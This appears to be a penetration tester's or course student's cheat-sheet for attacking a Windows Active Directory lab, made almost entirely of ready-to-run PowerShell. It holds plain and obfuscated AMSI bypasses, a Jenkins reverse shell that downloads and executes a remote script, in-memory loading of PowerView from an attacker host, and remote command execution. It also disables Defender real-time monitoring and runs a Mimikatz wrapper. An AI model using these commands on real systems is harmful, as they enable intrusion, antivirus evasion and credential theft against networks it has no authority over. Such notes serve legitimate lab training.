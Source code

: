 ### Default PowerShell Locations in a Windows System

- `C:\windows\syswow64\windowspowershell\v1.0\powershell`
- `C:\Windows\System32\WindowsPowerShell\v1.0\powershell`

### Example of AMSI Bypass

- **PowerShell Command:**
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
  ```

---

## Default Writeable Folders
```
- `C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys`
- `C:\Windows\System32\spool\drivers\color`
- `C:\Windows\Tasks`
- `C:\windows\tracing`
```

# Jenkins Shell Compromise

## Reverse Shell from Jenkins
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.157/re_shell.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.157 -Port 443
```

## Bypass Anti-Virus
```powershell
sET-ItEM ('V'+'aR' + 'IA' + 'blE:1q2' + 'uZx') ([TYpE]("{1}{0}" -f 'F','rE'));(GeT-VariaBle("1Q2U"+"zX") -VaL).""A`ss`Embly"".""GET`TY`Pe""((""{6}{3}{1}{4}{2}{0}{5}"" -f'Util','A','Amsi','.Management.','utomation.','s','System')).""g`etf`iElD""(("{0}{2}{1}" -f 'amsi','d','InitFaile'),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,')).""sE`T`VaLUE""(${n`ULl},${t`RuE})
```

## Load PowerView Module in Memory
```powershell
iex (iwr http://172.16.100.157/PowerView.ps1 -UseBasicParsing)
```

## Verify with PowerView Command
```powershell
get-help Invoke-UserHunter
```

## Execute Commands on Remote Machine
```powershell
PS C:\Program Files (x86)\Jenkins\workspace\project0> Invoke-Command -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock {whoami;hostname}
PS C:\Program Files (x86)\Jenkins\workspace\project0> whoami
```


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> exit
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> whoami /priv
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> hello
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 